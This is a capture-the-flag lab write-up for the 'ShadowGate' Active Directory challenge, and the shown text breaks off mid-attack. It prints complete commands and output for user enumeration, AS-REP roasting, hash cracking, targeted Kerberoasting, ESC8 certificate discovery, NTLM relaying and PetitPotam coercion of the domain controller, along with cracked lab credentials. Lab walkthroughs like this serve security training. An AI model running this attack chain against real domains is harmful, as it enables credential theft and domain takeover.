



# Challenge Lab: ShadowGate (Easy)


<aside>
💡

⚠️ **Spoiler Warning:** *This write-up reveals the complete attack chain and credentials for the lab open only when you stuck or want to check your work or need a hint.*

</aside>

# Attack chain Overview

```
[ AS-REP Roasting ] ──► Initial Credentials
         │
         ▼
[ Targeted Kerberoasting ] ──► Eleveted User-Credentials
         │
         ▼
[ AD CS ESC8 Relay ] ──► Coerced DC & Issued .pfx Certificate
         │
         ▼
[ DCSync Attack ] ──► Dumped ntds.dit Hashes
         │
         ▼
[ Total Domain Compromise ] ──► Evil-WinRM Shell (Administrator)
```

# Objective

**ShadowGate** recently completed a corporate acquisition that significantly expanded its internal network, user base,and application footprint. Several business-critical systems were migrated and consolidated under tight operational deadlines to minimize downtime and maintain service continuity.

While functional validation was completed, the organization deferred a comprehensive security assessment due to delivery pressure and staffing constraints. Leadership has since requested an independent penetration test to validate the security posture of the newly created environment 
and identify any material risk before the next audit cycle.

The assessment will evaluate whether a motivated attacker with standard network access could compromise sensitive systems, escalate privileges, or move laterally within the enterprise environment.

The Hack Smarter team has been authorized to perform a black box internal penetration test against the ShadowGate environment.

# Reconnaissance

- Pre-Details given within platform
    
    ```bash
    PORT      STATE SERVICE       VERSION
    53/tcp    open  domain        Simple DNS Plus
    80/tcp    open  http          Microsoft IIS httpd 10.0
    88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-15 13:41:20Z)
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: shadow.gate, Site: Default-First-Site-Name)
    445/tcp   open  microsoft-ds?
    464/tcp   open  kpasswd5?
    593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: shadow.gate, Site: Default-First-Site-Name)
    3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: shadow.gate, Site: Default-First-Site-Name)
    3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: shadow.gate, Site: Default-First-Site-Name)
    3389/tcp  open  ms-wbt-server Microsoft Terminal Services
    5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    9389/tcp  open  mc-nmf        .NET Message Framing
    ```
    

## NMAP

```bash
PORT     STATE SERVICE           REASON          VERSION
53/tcp   open  domain            syn-ack ttl 126 Simple DNS Plus
80/tcp   open  http              syn-ack ttl 126 Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec      syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-09-22 12:54:26Z)
135/tcp  open  msrpc             syn-ack ttl 126 Microsoft Windows RPC
139/tcp  open  netbios-ssn       syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp  open  ldap              syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: shadow.gate, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.shadow.gate
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.shadow.gate
| Issuer: commonName=shadow-DC01-CA/domainComponent=shadow
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-01-15T01:10:24
| Not valid after:  2027-01-15T01:10:24
| MD5:     5d22 4c5c 3d19 1ae9 d19a 2cf8 345d 14f6
| SHA-1:   2db8 b2b4 3549 bb0d 519f 1e00 845d 0531 b9fe 3390
| SHA-256: e948 65d7 b039 fa26 3f30 bc23 e7b0 f0b7 6a9d 53a8 4c51 06cf 019e 3d37 353b 2e90

445/tcp  open  microsoft-ds?     syn-ack ttl 126
464/tcp  open  kpasswd5?         syn-ack ttl 126
593/tcp  open  ncacn_http        syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: shadow.gate, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.shadow.gate
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.shadow.gate
| Issuer: commonName=shadow-DC01-CA/domainComponent=shadow
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-01-15T01:10:24
| Not valid after:  2027-01-15T01:10:24
| MD5:     5d22 4c5c 3d19 1ae9 d19a 2cf8 345d 14f6
| SHA-1:   2db8 b2b4 3549 bb0d 519f 1e00 845d 0531 b9fe 3390
| SHA-256: e948 65d7 b039 fa26 3f30 bc23 e7b0 f0b7 6a9d 53a8 4c51 06cf 019e 3d37 353b 2e90
|
3268/tcp open  ldap              syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: shadow.gate, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.shadow.gate
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.shadow.gate
| Issuer: commonName=shadow-DC01-CA/domainComponent=shadow
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-01-15T01:10:24
| Not valid after:  2027-01-15T01:10:24
| MD5:     5d22 4c5c 3d19 1ae9 d19a 2cf8 345d 14f6
| SHA-1:   2db8 b2b4 3549 bb0d 519f 1e00 845d 0531 b9fe 3390
| SHA-256: e948 65d7 b039 fa26 3f30 bc23 e7b0 f0b7 6a9d 53a8 4c51 06cf 019e 3d37 353b 2e90
|
3269/tcp open  globalcatLDAPssl? syn-ack ttl 126
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.shadow.gate
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.shadow.gate
| Issuer: commonName=shadow-DC01-CA/domainComponent=shadow
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-01-15T01:10:24
| Not valid after:  2027-01-15T01:10:24
| MD5:     5d22 4c5c 3d19 1ae9 d19a 2cf8 345d 14f6
| SHA-1:   2db8 b2b4 3549 bb0d 519f 1e00 845d 0531 b9fe 3390
| SHA-256: e948 65d7 b039 fa26 3f30 bc23 e7b0 f0b7 6a9d 53a8 4c51 06cf 019e 3d37 353b 2e90

3389/tcp open  ms-wbt-server     syn-ack ttl 126 Microsoft Terminal Services
|_ssl-date: 2026-09-22T12:56:32+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=DC01.shadow.gate
| Issuer: commonName=DC01.shadow.gate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-21T12:38:19
| Not valid after:  2027-03-23T12:38:19
| MD5:     a194 afc8 0102 b11f e9d0 18cb 5936 b91d
| SHA-1:   c346 704a bb6a 0270 8870 a917 0905 9ef9 a419 5645
| SHA-256: eab0 cb58 7970 0cbd 37ba c368 524f 4071 cad6 0424 357b e568 6eec a6c4 8ecd 05c9

5985/tcp open  http              syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.99%E=4%D=9/22%OT=53%CT=%CU=%PV=Y%G=N%TM=6AB27B03%P=x86_64-pc-linux-gnu)
SEQ()
ECN(R=N)
T1(R=N)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=N)

Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 62043/tcp): CLEAN (Timeout)
|   Check 2 (port 28035/tcp): CLEAN (Timeout)
|   Check 3 (port 21121/udp): CLEAN (Timeout)
|   Check 4 (port 51475/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 0s

TRACEROUTE (using port 53/tcp)
HOP RTT    ADDRESS
1   ... 30
```

## HTTP (80)



There is no interesting or vuln webpage is hosted rather its just plain default webpage of Windows Server .

# enum4linux

```bash
Administrator
Guest
krbtgt
ATHENA
mbrownlee
bbrown
jtrueblood
jsmith
clocke
tclarke
jbradford
amoss
```

As we can see , `enum4linux` gave some users list.Let’s use this list and enumerate the legit user and their hash.

# Post-Exploitation

## AS-REP Roasting

```bash
impacket-GetNPUsers shadow.gate/ -dc-ip 10.1.229.122 -no-pass -usersfile users.txt
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User ATHENA doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mbrownlee doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User bbrown doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$jtrueblood@SHADOW.GATE:5bee1ce895573b3dd99648607a0b9d72$cccbee32afa9faa50ced4d831e99890a3743c8b2d277aa29b7db6bdbd9ee41c1ce3e24cb4624ace1cb3ba7800a77b7f965cda93f67e8d55fb8a7dd704a8f1678a162f3bc386b7f7cac9cb125ed0ac8c8d69532cfb065579db1a70dd4930144800996c70e13fbef77aa005f2b563ca6bfdf54699ca824d4cb6af1f9f374754a798346a7c83a3a4ca72888c22b74456e510ec9645e8ee5b7cefa1036203b9de69d62d1f546c1786901e8ab4afe49714be5753201a98013a95ae5e1c92113806686010012b4b3764f2aa924f2fcba1b003a43181c98b520487fec4096c60b285eb3e29cc9e59637496408ac
[-] User jsmith doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User clocke doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User tclarke doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User jbradford doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User amoss doesn't have UF_DONT_REQUIRE_PREAUTH set
```

`$krb5asrep$23$jtrueblood@SHADOW.GATE:5bee1ce895573b3dd99648607a0b9d72$cccbee32afa9faa50ced4d831e99890a3743c8b2d277aa29b7db6bdbd9ee41c1ce3e24cb4624ace1cb3ba7800a77b7f965cda93f67e8d55fb8a7dd704a8f1678a162f3bc386b7f7cac9cb125ed0ac8c8d69532cfb065579db1a70dd4930144800996c70e13fbef77aa005f2b563ca6bfdf54699ca824d4cb6af1f9f374754a798346a7c83a3a4ca72888c22b74456e510ec9645e8ee5b7cefa1036203b9de69d62d1f546c1786901e8ab4afe49714be5753201a98013a95ae5e1c92113806686010012b4b3764f2aa924f2fcba1b003a43181c98b520487fec4096c60b285eb3e29cc9e59637496408ac`

- This is the hash we got after performing AS-REP .Now lets crack it offline.

```bash
john --format=krb5asrep hash --wordlist=/usr/share/wordlists/rockyou.txt 

 #blood_brothers   ($krb5asrep$23$jtrueblood@SHADOW.GATE)              
```

`jtrueblood:blood_brothers`

- Now then lets enumerate and list the shares

```bash
crackmapexec smb 10.1.229.122 -u jtrueblood -p blood_brothers --shares

SMB         10.1.229.122     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:shadow.gate) (signing:False) (SMBv1:False)
SMB         10.1.229.122     445    DC01             [+] shadow.gate\jtrueblood:blood_brothers 
SMB         10.1.229.122     445    DC01             [+] Enumerated shares
SMB         10.1.229.122     445    DC01             Share           Permissions     Remark
SMB         10.1.229.122     445    DC01             -----           -----------     ------
SMB         10.1.229.122     445    DC01             ADMIN$                          Remote Admin
SMB         10.1.229.122     445    DC01             C$                              Default share
SMB         10.1.229.122     445    DC01             CertEnroll      READ            Active Directory Certificate Services share
SMB         10.1.229.122     445    DC01             IPC$            READ            Remote IPC
SMB         10.1.229.122     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.229.122     445    DC01             SYSVOL          READ            Logon server share 
```

Now lets collect the loot and quick launch `bloodhound` 

```bash
┌──(kali㉿kali)-[~/shadow]
└─$ nxc ldap shadow.gate -u jtrueblood -p blood_brothers --dns-server 10.1.229.122 --bloodhound --collection All         
LDAP        10.1.229.122     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:shadow.gate) (signing:None) (channel binding:Never) 
LDAP        10.1.229.122     389    DC01             [+] shadow.gate\jtrueblood:blood_brothers 
LDAP        10.1.229.122     389    DC01             [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
LDAP        10.1.229.122     389    DC01             Resolved collection methods: group, localadmin, session, trusts
LDAP        10.1.229.122     389    DC01             Done in 0M 40S
LDAP        10.1.229.122     389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.1.229.122_2026-09-24_025344_bloodhound.zip
```



Bloodhound gave us hint, that `jtrueblood` has the Outbound-object Control which gave him,a `GenericWrite` permisson over the `bbrown` user who is a member of this groups. 

```bash
USERS@SHADOW.GATE
DOMAIN USERS@SHADOW.GATE
ADCS-READER@SHADOW.GATE
```

A targeted kerberoast attack can be performed using [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast).

The tool will automatically attempt a targetedKerberoast attack, either on all users or against a specific one if specified in the command line, and then obtain a crackable hash. The cleanup is done automatically as well.

```jsx
┌──(kali㉿oldestdream)-[~/shadow/targetedKerberoast]
└─$ ./targetedKerberoast.py -v -d 'shadow.gate' -u 'jtrueblood' -p 'blood_brothers'

[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (bbrown)
[+] Printing hash for (bbrown)
$krb5tgs$23$*bbrown$SHADOW.GATE$shadow.gate/bbrown*$8351d84419e456afae929bc31d27a2af$458cabedc0560829a022ff3a97edf5b6a2e702d07abf3ff3111c84d3473bd367327cff31f68683076eb59a5cbd86a3acc6dace55c914968d700a6f046ee9daf647e19af452dc909af14f976f48d3437dbf1853bd376f6e9e4655cb87cfe1b0b366d90749142142e5b340d9f6b7fa31c8228b5cde1a5ca3d7b34f757af90aaf70030f4a988afd89d23d8958ffcee115550d300f6e27696148366ec63d012ddc5feffd10c25304cc5c40d8a3cc3b48893d3a92e6f670a79cefc44471ac89a8de405c20d91d4d1a90e5ec6922086d6d99d1523eea4a5d3a6836c207d29e1f251d9354b56641592c48c31f142d326a4b6ada0e5a10faf3fa62958699b7e3f73a21457fb9dbaba8e3609b9a46028c52582854de548858a4f90f9c151f15d7b8184a1b2266252e1f9db3757de52c7ea94a41f2e54e63ebb77de2a1acf4f6849321acdadee65f8e6c723edae5cccd671109bc64381bc9c8594df6782ecf02a4dc78627f77881fd615739f08321701cf61f8599255a21156f19db50dde67260038133610d01e85ad6d877ed8c47a33aeadace400d2de20adf532a8b34d9f4e21dbc84b03d1023bfaedf1409d8e2e48b0e409c2cb1730f6bd68c47aff52fd31ba39e6eb237aa06539314b1888266d5622b9dce535a91b634b595ff767e8695f27973558dd128ae393529014bdd01afb5e23a3e3ff92ece823dee14f0fd77ba9979156b1dbee4791d495a9b1eb368c715612d4125a6dcb129a9bfca1900387fa248c888cf04b77bdb039ddf92894837c2ff6a1433b00bcb6fbf498fe7b32ec0ac45accf1391221214b32107282e8aad9949ef2e7e64aa3488bd20ee38708aab4c18627356f54bb5bc351fe8236ddef362bc03d292aedf37bdcd03dbbaeff748a7072b20b4dd16abeea3f6bdab454107c5acdcd0ed90c004cf162599a61c60b53a8fca5e533430c81be04d54e0ce255bd86b8332cde1dab1a8b1df8a5345c3d81441da5837928445b5225bb9ebdd6f30b6626e4a99b41f383b477d8e78a5a6c81128fd0bb24a5c6fafd01bce4e97337ea80308dc9e9d00414573e212dd4606e5b6a45d9ef2c7a596b500cf8261021a9f5d6f50c3f8618be13b759b3451ce5260f201a19ee93dc1cae06dd82cb5452ef02db557b34669f6c76014526c487eb294394b2304001a87bd88b7b79f3fa02a34bad6ebda784fd7b640cbe7e086aa0f59c3875bd9ccfd54df48dc61ea1a29212646fce4b0029399e84f8db51aff26b3036fcf8b0a6722201472d31cbf431bb0877fb24f00c0942c05d099dcf9209144acbc1b6a0afc4f6394aa3edce344e09bf784041ff438343fb4fd1eacbb7dc9739da5f6e5041e851270f1ff99f77ec7fdea74ebedc0c0da765340a8e15939a2aea466627ae2673b7bff693694a3eff1dd5943fc365eac1315686efd20846b8837b1eb4fcc97a8f246ea86338ea38528fcf63d09b55cd47ca43fd4cc7f00ad820f3d9b56d7c2b1d6dda192cfef4ef1bd78e3f11eb87ec001e094cc57f43
[VERBOSE] SPN removed successfully for (bbrown)
```

The recovered hash can be cracked offline using the tool of your choice.

```bash
┌──(kali㉿oldestdream)-[~/shadow/targetedKerberoast]
└─$ hashcat brown.kerb /usr/share/wordlists/rockyou.txt

$krb5tgs$23$*bbrown$SHADOW.GATE$shadow.gate/bbrown*$8351d84419e456afae929bc31d27a2af$458cabedc0560829a022ff3a97edf5b6a2e702d07abf3ff3111c84d3473bd367327cff31f68683076eb59a5cbd86a3acc6dace55c914968d700a6f046ee9daf647e19af452dc909af14f976f48d3437dbf1853bd376f6e9e4655cb87cfe1b0b366d90749142142e5b340d9f6b7fa31c8228b5cde1a5ca3d7b34f757af90aaf70030f4a988afd89d23d8958ffcee115550d300f6e27696148366ec63d012ddc5feffd10c25304cc5c40d8a3cc3b48893d3a92e6f670a79cefc44471ac89a8de405c20d91d4d1a90e5ec6922086d6d99d1523eea4a5d3a6836c207d29e1f251d9354b56641592c48c31f142d326a4b6ada0e5a10faf3fa62958699b7e3f73a21457fb9dbaba8e3609b9a46028c52582854de548858a4f90f9c151f15d7b8184a1b2266252e1f9db3757de52c7ea94a41f2e54e63ebb77de2a1acf4f6849321acdadee65f8e6c723edae5cccd671109bc64381bc9c8594df6782ecf02a4dc78627f77881fd615739f08321701cf61f8599255a21156f19db50dde67260038133610d01e85ad6d877ed8c47a33aeadace400d2de20adf532a8b34d9f4e21dbc84b03d1023bfaedf1409d8e2e48b0e409c2cb1730f6bd68c47aff52fd31ba39e6eb237aa06539314b1888266d5622b9dce535a91b634b595ff767e8695f27973558dd128ae393529014bdd01afb5e23a3e3ff92ece823dee14f0fd77ba9979156b1dbee4791d495a9b1eb368c715612d4125a6dcb129a9bfca1900387fa248c888cf04b77bdb039ddf92894837c2ff6a1433b00bcb6fbf498fe7b32ec0ac45accf1391221214b32107282e8aad9949ef2e7e64aa3488bd20ee38708aab4c18627356f54bb5bc351fe8236ddef362bc03d292aedf37bdcd03dbbaeff748a7072b20b4dd16abeea3f6bdab454107c5acdcd0ed90c004cf162599a61c60b53a8fca5e533430c81be04d54e0ce255bd86b8332cde1dab1a8b1df8a5345c3d81441da5837928445b5225bb9ebdd6f30b6626e4a99b41f383b477d8e78a5a6c81128fd0bb24a5c6fafd01bce4e97337ea80308dc9e9d00414573e212dd4606e5b6a45d9ef2c7a596b500cf8261021a9f5d6f50c3f8618be13b759b3451ce5260f201a19ee93dc1cae06dd82cb5452ef02db557b34669f6c76014526c487eb294394b2304001a87bd88b7b79f3fa02a34bad6ebda784fd7b640cbe7e086aa0f59c3875bd9ccfd54df48dc61ea1a29212646fce4b0029399e84f8db51aff26b3036fcf8b0a6722201472d31cbf431bb0877fb24f00c0942c05d099dcf9209144acbc1b6a0afc4f6394aa3edce344e09bf784041ff438343fb4fd1eacbb7dc9739da5f6e5041e851270f1ff99f77ec7fdea74ebedc0c0da765340a8e15939a2aea466627ae2673b7bff693694a3eff1dd5943fc365eac1315686efd20846b8837b1eb4fcc97a8f246ea86338ea38528fcf63d09b55cd47ca43fd4cc7f00ad820f3d9b56d7c2b1d6dda192cfef4ef1bd78e3f11eb87ec001e094cc57f43:12345678
```

We successfully cracked the password of the `bbrown` thanks to hashcat.

`bbrown:12345678`

Let’s confirm this credentials and gather the bloodhound loot again.

```bash
┌──(kali㉿oldestdream)-[~/shadow]
└─$ nxc ldap shadow.gate -u bbrown -p "12345678" --dns-server 10.1.229.122 --bloodhound --collection All

LDAP        10.1.229.122     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:shadow.gate) (signing:None) (channel binding:Never)
LDAP        10.1.229.122     389    DC01             [+] shadow.gate\bbrown:12345678
LDAP        10.1.229.122     389    DC01             [-] Neo4J does not seem to be available on bolt://127.0.0.1:7687.
LDAP        10.1.229.122     389    DC01             Resolved collection methods: session, localadmin, objectprops, rdp, container, acl, trusts, dcom, group, psremote
LDAP        10.1.229.122     389    DC01             Done in 1M 8S
LDAP        10.1.229.122     389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.1.229.122_2026-09-26_080149_bloodhound.zip
```

The login was success and the credentials were legit.

Reading the share `CertEnroll`

```bash
 smbclient //10.1.229.122/CertEnroll -U 'shadow.gate/jtrueblood%blood_brothers'

Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Sep 22 08:38:56 2026
  ..                                  D        0  Sun Jan 11 22:00:58 2026
  DC01.shadow.gate_shadow-DC01-CA.crt      A      877  Sun Jan 11 22:00:31 2026
  nsrev_shadow-DC01-CA.asp            A      323  Sun Jan 11 22:00:58 2026
  shadow-DC01-CA+.crl                 A      725  Tue Sep 22 08:38:56 2026
  shadow-DC01-CA.crl                  A      914  Tue Sep 22 08:38:56 2026

                7863807 blocks of size 4096. 2990407 blocks available
smb: \> 
```

As it seems the certificates are exposed in smb.

Using `certipy` to enumerate the vulnerable certificates 

```bash
┌──(kali㉿kali)-[~/shadow]
└─$ certipy-ad find -dc-ip 10.1.229.122 -dc-host DC01.shadow.gate -u jtrueblood -p blood_brothers -stdout -vulnerable 

Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 0 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 0 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'shadow-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'shadow-DC01-CA'
[*] Checking web enrollment for CA 'shadow-DC01-CA' @ 'DC01.shadow.gate'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : shadow-DC01-CA
    DNS Name                            : DC01.shadow.gate
    Certificate Subject                 : CN=shadow-DC01-CA, DC=shadow, DC=gate
    Certificate Serial Number           : 749A4BA2BEA3CFBC41ECDFAEE502E46C
    Certificate Validity Start          : 2026-01-12 02:50:31+00:00
    Certificate Validity End            : 2046-01-12 03:00:31+00:00
    Web Enrollment
      HTTP
        Enabled                         : True
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SHADOW.GATE\Administrators
      Access Rights
        ManageCa                        : SHADOW.GATE\Administrators
                                          SHADOW.GATE\Domain Admins
                                          SHADOW.GATE\Enterprise Admins
        ManageCertificates              : SHADOW.GATE\Administrators
                                          SHADOW.GATE\Domain Admins
                                          SHADOW.GATE\Enterprise Admins
        Enroll                          : SHADOW.GATE\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled over HTTP.
Certificate Templates                   : [!] Could not find any certificate templates
                                                                                                                                                                                             
```

We use a technique called `relaying` and`coercing`

Coercing is an exploit or a bug to make the DC think it *needs* to talk to you meaning we can make dc to send the password.

- Trigger : We send RPC request to the dc.
- Bait: For example “Hey I’m a device that needs update so authenticate me”
- Fall: DC believes and connects back to the attcker IP.
- Posession: WE GET OUR ROUTE TO NEXT STEP.

## NTLM Relaying

```bash
┌──(kali㉿oldestdream)-[~/shadow]
└─$ sudo impacket-ntlmrelayx -t http://10.1.229.122/certsrv/certfnsh.asp -smb2s
upport --adcs --template DomainController

Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[*] Protocol Client WINRMS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Setting up WinRM (HTTP) Server on port 5985
[*] Setting up RPC Server on port 135
[*] Setting up MSSQL Server on port 1433
[*] Setting up WinRMS (HTTPS) Server on port 5986
[*] Setting up RDP Server on port 3389
[*] Multirelay disabled

[*] Servers started, waiting for connections
```

Also start the [PetiPotam.py](http://PetiPotam.py)  simultaneously,

Use **PetitPotam** to force DC01 to authenticate to our Kali listener:

```bash

┌──(kali㉿oldestdream)-[~/Tools]
└─$ python PetitPotam.py -u bbrown -p "12345678" 10.200.98.27 10.1.229.122
/home/kali/Tools/PetitPotam.py:23: SyntaxWarning: "\ " is an invalid escape sequence. Such sequences will not work in the future. Did you mean "\\ "? A raw string is also an option.
  | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __

              ___            _        _      _        ___            _
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __
             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_|
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""|
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'

              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)

                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN

Trying pipe lsarpc
[-] Connecting to ncacn_np:10.1.229.122[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
